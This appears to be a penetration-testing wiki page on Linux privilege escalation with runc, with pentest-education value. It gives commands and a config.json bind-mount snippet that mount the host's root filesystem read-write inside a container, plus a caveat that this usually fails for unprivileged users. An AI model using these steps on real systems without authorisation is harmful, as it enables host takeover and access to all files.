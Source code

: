 # RunC Privilege Escalation

## Basic information

If you want to learn more about **runc** check the following page:

{% page-ref page="../../pentesting/2375-pentesting-docker.md" %}

## PE

If you find that `runc` is installed in the host you may be able to **run a container mounting the root / folder of the host**.

```bash
runc -help #Get help and see if runc is intalled
runc spec #This will create the config.json file in your current folder

Inside the "mounts" section of the create config.json add the following lines:
{
    "type": "bind",
    "source": "/",
    "destination": "/",
    "options": [
        "rbind",
        "rw",
        "rprivate"
    ]
},

#Once you have modified the config.json file, create the folder rootfs in the same directory
mkdir rootfs

# Finally, start the container
# The root folder is the one from the host
runc run demo
```

{% hint style="danger" %}
This won't always work as the default operation of runc is to run as root, so running it as an unprivileged user simply cannot work \(unless you have a rootless configuration\). Making a rootless configuration the default isn't generally a good idea because there are quite a few restrictions inside rootless containers that don't apply outside rootless containers.
{% endhint %}





